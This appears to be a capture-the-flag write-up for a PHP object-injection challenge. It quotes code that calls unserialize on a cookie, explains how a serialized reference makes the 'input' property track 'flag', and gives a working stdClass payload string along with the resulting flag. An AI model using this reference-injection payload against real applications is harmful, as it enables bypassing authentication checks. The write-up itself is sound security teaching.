

Here, there is another `Object injection` using `unserialize`.
We can see these lines:
```php
$obj = $_COOKIE['obj'];
$unserialized_obj = unserialize ($obj);
$unserialized_obj->flag = $flag;  
if (hash_equals ($unserialized_obj->input, $unserialized_obj->flag))
    echo '<div class="alert alert-success">Here is your flag: <mark>' . $flag . '</mark>.</div>';   
``` 

It sets the flag to `$unserialized_obj->flag` and then check whether `$unserialized_obj->input` equal to `$unserialized_obj->flag`. 

How can we make it? assume we can insert whatever values we want into `input` and into `flag`, during the `unserialize`.

We can simply make `input` to be reference to `flag`!
Then, when changing `flag`, `input` will get changed as well.

Something like this:
```php
class MyClass1 {
	public $input;
    public $flag = 'mydummyflag';
}
$myclass=new MyClass1();
$myclass->input=&$myclass->flag;

echo serialize($myclass)."\n";
```
This gives us: `O:8:"MyClass1":2:{s:5:"input";s:11:"mydummyflag";s:4:"flag";R:2;}`

We only need to change from `MyClass1` to `stdClass`:
`O:8:"stdClass":2:{s:5:"input";s:11:"mydummyflag";s:4:"flag";R:2;}`




**Flag:** ***`WEBSEC{You_have_impressive_refrences._We'll_call_you_back.}`*** 
